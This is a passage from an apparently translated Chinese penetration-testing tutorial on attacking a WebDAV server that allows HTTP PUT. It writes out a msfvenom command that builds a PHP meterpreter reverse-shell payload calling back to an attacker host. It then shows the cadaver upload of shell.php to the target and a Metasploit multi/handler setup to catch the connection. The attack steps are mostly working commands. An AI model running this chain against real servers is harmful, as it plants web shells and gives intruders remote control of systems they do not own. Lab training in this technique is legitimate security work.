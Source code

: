 运行上述命令后，我们可以观察到下面屏幕截图中突出显示的部分显示允许HTTP PUT方法。现在让我们通过使用下一节中显示的各种技术上传PHP恶意文件来攻击易受攻击的目标机器。

![img](https://i2.wp.com/4.bp.blogspot.com/-_fKRSGfCCgA/W77rlIJD1XI/AAAAAAAAaqo/SA6dYhM9WtUVv3H6ryRskxjAktX8OgzmQCEwYBhgL/s1600/2.png?w=687&ssl=1)

准备要使用msfvenom上传的恶意文件：

Msfvenom可用于创建PHP meterpreter有效负载，为我们提供反向shell。执行以下命令以执行相同操作



| 1    | msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.105 lport=4444 -f raw |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

将代码从**<？php**复制**到die（）**并将其保存在桌面上具有.php扩展名为**shell.php**文件的文件中。这将在后面的部分中使用，以便在Web服务器上上传文件。

![img](https://i2.wp.com/1.bp.blogspot.com/-ai6_PuZKAtU/W77rl0U7yzI/AAAAAAAAaq0/_yom0zpAx4ID2rNrdTJvQvzx8WSLEKXBQCEwYBhgL/s1600/3.png?w=687&ssl=1)

同时，通过在新终端上键入msfconsole来加载metasploit框架并启动multi / handler。这将在本节的后面部分中使用

### **0x03Cadaver**

Cadaver是预装在Kali机器上的命令行工具，可以在webdav上上传和下载文件。

使用下面给出的命令键入目标主机URL以上载恶意文件。



| 1    | cadaver http://192.168.1.103/dav/ |
| ---- | --------------------------------- |
|      |                                   |

现在，一旦我们进入受害者的目录，通过执行以下命令将文件**shell.php**从Desktop 上传到目标机器的路径：



| 1    | put /root/Desktop/shell.php |
| ---- | --------------------------- |
|      |                             |

![img](https://i0.wp.com/4.bp.blogspot.com/-orYWQsnvyQQ/W77rmHlDItI/AAAAAAAAaqI/PDRguU1qCtIyIFqsEWCcjV6Rh8dRAYQhQCEwYBhgL/s1600/4.png?w=687&ssl=1)

要验证文件是否已上载，请在浏览器上运行URL：**192.168.1.103/dav/**。真棒！我们可以看到，恶意文件**shell.php**已经上传到Web服务器上。

![img](https://i2.wp.com/4.bp.blogspot.com/-yG32I2RGUeY/W77rmDmgKSI/AAAAAAAAaqs/Ss7Yu3qYMSgwizHtwTE6I0Z5x7pS0zL3wCEwYBhgL/s1600/5.png?w=687&ssl=1)

现在，让我们启动Metasploit框架并使用exploit / multi / handler模块启动一个处理程序。将其他值（如LHOST和LPORT值）分别分配给Kali机器的IP和端口以进行侦听。完成后，通过运行命令**exploit**来执行以开始侦听传入连接。



| **1** | **msf> use exploit/multi/handler**                           |
| :---: | ------------------------------------------------------------ |
| **2** | **msf exploit(handler) > set payload php/meterpreter/reverse_tcp** |
| **3** | **msf exploit(handler) > set lhost 192.168.1.105**           |
| **4** | **msf exploit(handler) > set lport 4444**                    |
| **5** | **msf exploit(handler) > exploit**                           |
